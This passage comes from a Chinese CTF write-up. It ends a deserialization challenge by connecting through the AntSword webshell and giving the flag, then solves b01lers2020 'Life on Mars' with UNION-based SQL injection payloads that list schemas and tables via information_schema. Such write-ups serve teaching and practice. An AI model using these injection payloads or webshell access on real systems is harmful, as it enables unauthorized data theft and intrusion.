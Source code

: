 tips：由于 A 类里用的是 protected ，最后要记得 urlencode 编码。

最后直接蚁剑连或者进入文件进行RCE就行了。

flag:

> flag{4485bf1d-37bc-412f-8e24-6043aebf71a4}

### [b01lers2020]Life on Mars

这题的难点是作者放了多个数据库，但其实没 ban 什么东西，好搞。

源码的 `life_on_mars.js` 提示了注入点(抓包也可以看出来

```js
function get_life(query) {
  $.ajax({
    type: "GET",
    url: "/query?search=" + query,
    data: "{}",
    contentType: "application/json; charset=utf-8",
    dataType: "json",
    cache: false,
    success: function(data) {
      var table_html =
        '<table id="results"><tr><th>Name</th><th>Description</th></tr>';
      $.each(data, function(i, item) {
        table_html +=
          "<tr><td>" + data[i][0] + "</td><td>" + data[i][1] + "</td></tr>";
      });
      table_html += "</table>";

      $("#results").replaceWith(table_html);
    },

    error: function(msg) { }
  });
}
```

这里 `/query?search=` 参数输入地名就可以查到数据，直接上 `union`。

前面的测试不说，当前数据库拿不到东西，直接查其他数据库。

```mysql
url/query?search=amazonis_planitia union select 1,schema_name from information_schema.schemata
```

查到三个数据库，`information_schema`， `alien_code`， `aliens`。`aliens` 是当前数据库，`information_schema` 这个是MySQL自带的信息数据库，那么就只剩下一个了，直接上流程。

查表

```mysql
url/query?search=amazonis_planitia union select 1,group_concat(table_name) from information_schema.tables where table_schema='alien_code'
```
